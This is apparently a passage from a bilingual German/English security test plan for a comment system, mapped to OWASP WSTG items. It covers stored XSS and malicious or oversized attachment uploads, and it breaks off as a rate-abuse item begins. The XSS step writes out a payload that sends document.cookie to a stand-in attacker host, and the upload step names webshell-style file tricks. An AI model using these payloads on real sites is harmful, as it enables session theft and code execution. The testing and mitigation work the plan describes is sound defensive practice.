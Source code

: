 **Kurz-Schritte**

1. Poste als User A folgenden Kommentar: `<img src=x onerror=fetch('https://attacker.example/steal?c='+encodeURIComponent(document.cookie))>` oder `<script>alert(1)</script>`.
2. Als User B (anderer Browser / incognito) öffne den Thread und beobachte DOM/alerts/network calls.
3. Variationen: encoded forms (`&lt;script&gt;`), SVG payloads, JSON/Markdown edge cases, nested tags, event handler in attributes, `javascript:` links.

**Automation-Hint**

- Use headless browser (Puppeteer) to post payloads and detect JS dialogs/network beacons; Burp to inject payloads via API.
    
    **Erwartetes Ergebnis / Beweis**
    
- Keine Script-Ausführung; payloads escaped or stripped on output. Proof: raw saved comment, screenshot of rendered page, network logs showing no exfil.
    
    **Schnelle Gegenmaßnahme**
    
- Server-seitige whitelist-sanitizer (DOMPurify/OWASP sanitizer) + CSP. Sanitize on store **and** on render.

---

### CM-02 — Attachment abuse (malicious files, large files)

**WSTG-Mapping:** WSTG-FILE / File Upload.

**Kurz-Schritte**

1. Versuch Uploads: `script.php.jpg`, `.svg` with `<script>`, very large files, archive containing many files.
2. Nach Upload: request direct URL, inspect headers, try to execute (if webroot). Also check thumbnail generation for crashes.
3. Test upload of many large attachments to simulate quota exhaustion.

**Automation-Hint**

- Burp file upload + payload permutations; scripted parallel uploads.
    
    **Erwartetes Ergebnis / Beweis**
    
- Attachments validated, executables rejected, size limits enforced; thumbnails crash gracefully. Evidence: raw upload responses, headers, logs.
    
    **Schnelle Gegenmaßnahme**
    
- Validate magic bytes + extension mapping, store outside webroot, scan with AV, set size limits and queue thumbnail jobs in sandbox.

---

### CM-03 — Rate abuse / automated posting (spam)

**WSTG-Mapping:** WSTG-BUSL / Brute-Force & Abuse.

**Kurz-Schritte**
